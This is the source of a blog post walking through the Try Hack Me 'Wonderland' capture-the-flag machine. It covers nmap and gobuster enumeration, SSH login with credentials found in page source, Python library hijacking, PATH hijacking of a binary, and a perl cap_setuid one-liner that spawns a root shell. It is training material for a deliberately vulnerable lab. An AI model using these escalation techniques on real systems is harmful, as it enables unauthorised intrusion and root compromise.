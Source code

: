 ```yaml
---
layout: post
title: "Wonderland: Try Hack Me Walkthrough"
date: 2020-06-05 20:20:20 +0000
last_modified_at: 2020-06-05 20:20:20 +0000
category: Walkthrough
tags: ["Try Hack Me", Wonderland, Weekly Challenge, Web]
comments: true
image:
  feature: WonderLand/WonderlandFeature_ue4mbd.jpg
  credit: WallpaperCave / WallpaperCave
  creditlink: https://wallpapercave.com/w/wp4684154
---
```


This post documents the complete walkthrough of Wonderland, a weekly vulnerable challenge [VM][1] created by [NinjaJc01][2], and hosted at [Try Hack Me][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

## On this post
{:.no_toc}

* TOC
{:toc}

## Background

Wonderland is a weekly challenge vulnerable VM from Try Hack Me.

## Information Gathering

Let’s start with a `nmap` scan to establish the open ports in the host.

```
# nmap -vv --reason -Pn -sV -sC --version-all -oN /root/Desktop/THM/Wonderland/scans/tcp_nmap.txt 10.10.200.195
...
Nmap scan report for 10.10.200.195
Host is up, received user-set (0.098s latency).
Scanned at 2020-06-05 17:29:02 EDT for 20s
Not shown: 998 closed ports
Reason: 998 resets
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDe20sKMgKSMTnyRTmZhXPxn+xLggGUemXZLJDkaGAkZSMgwM3taNTc8OaEku7BvbOkqoIya4ZI8vLuNdMnESFfB22kMWfkoB0zKCSWzaiOjvdMBw559UkLCZ3bgwDY2RudNYq5YEwtqQMFgeRCC1/rO4h4Hl0YjLJufYOoIbK0EPaClcDPYjp+E1xpbn3kqKMhyWDvfZ2ltU1Et2MkhmtJ6TH2HA+eFdyMEQ5SqX6aASSXM7OoUHwJJmptyr2aNeUXiytv7uwWHkIqk3vVrZBXsyjW4ebxC3v0/Oqd73UWd5epuNbYbBNls06YZDVI8wyZ0eYGKwjtogg5+h82rnWN
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHH2gIouNdIhId0iND9UFQByJZcff2CXQ5Esgx1L96L50cYaArAW3A3YP3VDg4tePrpavcPJC2IDonroSEeGj6M=
|   256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAsWAdr9g04J7Q8aeiWYg03WjPqGVS6aNf/LF+/hMyKh
80/tcp open  http    syn-ack ttl 63 Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Follow the white rabbit.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

### Website Analysis

Appears to be some kind of `http` service. Here's how it looks like.

{% include image.html image_alt="WonderLand/WonderlandWebHome_msjm15.jpg" image_src="WonderLand/WonderlandWebHome_msjm15.jpg" %}

First things first we do a `gobuster` scan.

```
gobuster dir -u http://10.10.200.195 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt
```

Once the scan returns we see one result.

{% include image.html image_alt="WonderLand/WonderlandFirstDirb_q46f3m.jpg" image_src="WonderLand/WonderlandFirstDirb_q46f3m.jpg" %}

Going to that page we view the source of the page. We see a comment about following the rabbit.

{% include image.html image_alt="WonderLand/WonderlandFirstPage_elolsj.jpg" image_src="WonderLand/WonderlandFirstPage_elolsj.jpg" %}

We run another `gobuster` from this new directory. This will hopefully show us more of the path.

```
gobuster dir -u http://10.10.200.195/r/ -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt
```

It looks like the scan returns a new directory from this path.

{% include image.html image_alt="WonderLand/WonderlandDirb2_hunewl.jpg" image_src="WonderLand/WonderlandDirb2_hunewl.jpg" %}

Viewing that page returned the same message as before... we try going to /r/a/b/b/i/t

{% include image.html image_alt="WonderLand/WonderLandNewPage_j8nsqk.jpg" image_src="WonderLand/WonderLandNewPage_j8nsqk.jpg" %}

We view the source of this page and it gives us what looks to be some login credentials.

{% include image.html image_alt="WonderLand/WonderLandAliceCreds_xenhos.jpg" image_src="WonderLand/WonderLandAliceCreds_xenhos.jpg" %}

## Exploiting the Box

### Getting `user.txt`

#### Getting Rabbit

```
ssh alice@10.10.200.195
```

Since we have the alice password. We run a sudo -l to see if we can run any commands on the box. We can also get the user flag by doing cat /root/user.txt at this point or grab it with root at the end of the challenge.

{% include image.html image_alt="WonderLand/WonderlandAliceSudo_d5tisn.jpg" image_src="WonderLand/WonderlandAliceSudo_d5tisn.jpg" %}

We see we can run python3.6 as rabbit with a certain python script. We also see in the script it imports random. We can do something called python library hijacking. If we place a random.py file in the same directory when import random runs it will use our python file instead of the random.py library python file.

{% include image.html image_alt="WonderLand/WonderLandAlicePython_q8wxjc.jpg" image_src="WonderLand/WonderLandAlicePython_q8wxjc.jpg" %}


```
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py 

```

{% include image.html image_alt="WonderLand/wonderlandrabbitstart_xpwq91.jpg" image_src="WonderLand/wonderlandrabbitstart_xpwq91.jpg" %}

#### Getting madhatter

Now we move over to /home/rabbit. We see a binary called teaParty. When we run it the binary shows the following display.

{% include image.html image_alt="WonderLand/wonderlandrabbitteaparty_ljq5f2.jpg" image_src="WonderLand/wonderlandrabbitteaparty_ljq5f2.jpg" %}

I copied the file back to our system by running: `python3 -m http.server`. We then strings the file on our system and notice it calls date without specifying the path. This means we hijack the path and take over the date binary.

{% include image.html image_alt="WonderLand/WonderlandRabbitStrings_fnnlx3.jpg" image_src="WonderLand/WonderlandRabbitStrings_fnnlx3.jpg" %}

We create the following file with `Vi` on the system as rabbit and do `chmod +x date` on our new file.

{% include image.html image_alt="WonderLand/WonderLandDate_upmv72.jpg" image_src="WonderLand/WonderLandDate_upmv72.jpg" %}

We then change our path by doing `export PATH=/home/rabbit:$PATH` and run the `teaParty` 

{% include image.html image_alt="WonderLand/WonderlandHatterInit_xt813h.jpg" image_src="WonderLand/WonderlandHatterInit_xt813h.jpg" %}

### Getting `root.txt`

We do our standard enumeration using `linpeas` and see that `/usr/bin/perl` has cap_setuid+ep capabilities 

{% include image.html image_alt="WonderLand/WonderLandEnum_oyo70g.jpg" image_src="WonderLand/WonderLandEnum_oyo70g.jpg" %}

```
/usr/bin/perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'
```

Running this gives us root as perl as setuid privileges so it can execute /bin/bash as root

{% include image.html image_alt="WonderLand/WonderLandRoot_hxhyj2.jpg" image_src="WonderLand/WonderLandRoot_hxhyj2.jpg" %}

Doing this we see our root.txt flag in the Alice directory!

{% include image.html image_alt="WonderLand/WonderlandRootFlag_thkrtu.jpg" image_src="WonderLand/WonderlandRootFlag_thkrtu.jpg" %}

We also can navigate to /root and get our user.txt flag.

{% include image.html image_alt="WonderLand/WonderLandUser_gnpd6i.jpg" image_src="WonderLand/WonderLandUser_gnpd6i.jpg" %}


:dancer:

[1]: https://tryhackme.com/room/wonderland
[2]: https://tryhackme.com/p/NinjaJc01
[3]: https://tryhackme.com
